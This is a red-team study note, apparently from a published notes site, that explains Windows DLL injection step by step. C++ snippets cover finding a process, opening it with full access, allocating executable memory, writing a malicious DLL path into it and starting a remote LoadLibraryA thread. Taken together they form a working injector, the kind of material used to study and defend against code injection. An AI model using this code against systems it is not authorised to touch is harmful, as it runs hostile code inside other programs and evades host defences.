 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/images/abusing-dl-ls/","tags":["red-team/host-evasion"]}
---
```


~ [[cards/red-team/Abusing Windows Internals\|Abusing Windows Internals]]
### Introduction
---
**DLL injection** is a technique used to run custom code inside the address space of another process by forcing that process to load a **Dynamic Link Library (DLL)** that contains the malicious.
## Steps
---
**Step 1: Locate the Target Process**

- Use Windows API to search for the process name and obtain its PID (Process ID).
- Uses:
  - `CreateToolhelp32Snapshot` - creates a snapshot of the specified processes, threads, modules, or heaps in the system currently running.
	  - `TH32CS_SNAPPROCESS`: Indicates we want a snapshot of all processes.
  - `Process32First` - Retrieves information about the first process in the snapshot created recently -- Acts as a starting point for process enumeration.
  - `Process32Next` -- continues the iteration through the rest of the process in the snapshot.


```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot) {
        PROCESSENTRY32 entry;
        entry.dwSize = sizeof(PROCESSENTRY32);
        if (Process32First(hSnapshot, &entry)) {
            do {
                if (!strcmp(entry.szExeFile, processName)) {
                    return entry.th32ProcessID;
                }
            } while (Process32Next(hSnapshot, &entry));
        }
    }
}


DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

- `entry.szExeFile` holds the name of the current process being checked in the loop.
- `processName` is the process we are looking for.


**Step 2: Open the Target Process**

- Open the process using `OpenProcess` with `PROCESS_ALL_ACCESS`.
    
- This grants full permissions to manipulate memory and create threads.

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS,
    FALSE,
    processId
);
```

**Step 3: Allocate Memory for the DLL Path**

Remember: _hProcess_ is the variable that has a handle to the target process.

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
    hProcess,
    NULL,
    strlen(dllLibFullPath),
    MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
);
```

- Allocate memory in the target process to hold the DLL path string.
    
- Use `VirtualAllocEx` to allocate executable memory.

**Step 4: Write the DLL Path to Allocated Memory**

```cpp
WriteProcessMemory(
    hProcess, // Handle for the target process
    dllAllocatedMemory,// Allocated Memory In Region
    dllLibFullPath, // Path to the malicious DLL
    strlen(dllLibFullPath) + 1,
    NULL
);
```


- Write the DLL file path to the allocated region in the remote process.
    
- Use `WriteProcessMemory`.

**Step 5: Load and Execute the Malicious DLL**

```cpp
LPVOID loadLibrary = (LPVOID) GetProcAddress(
    GetModuleHandle("kernel32.dll"),
    "LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
    hProcess, // Handle for the target process
    NULL,
    0, // Default size from the executable of the stack
    (LPTHREAD_START_ROUTINE) loadLibrary,
    dllAllocatedMemory, // pointer to the allocated memory region.
    0,
    NULL
);
```


- Get the address of `LoadLibraryA` from kernel32.dll using `GetProcAddress`.
    
- Use `CreateRemoteThread` to create a new thread in the remote process.
    
- Pass the DLL path and execute the thread to load the DLL.

**Note:** as for the process name you need to input what the task manager sees so in our example

![Abusing DLLs.png](/img/user/cards/red-team/images/Abusing%20DLLs.png)
### Conclusion
---
Assuming all prerequisites are met (correct privileges, matching architecture, and a valid DLL), DLL injection involves:

1. Identifying the target process.
    
2. Opening a handle to it with appropriate access rights.
    
3. Allocating memory inside the target process for the DLL path.
    
4. Writing the full path of the malicious DLL into that allocated memory.
    
5. Using `LoadLibrary` via `CreateRemoteThread` to load and execute the DLL in the context of the target process.



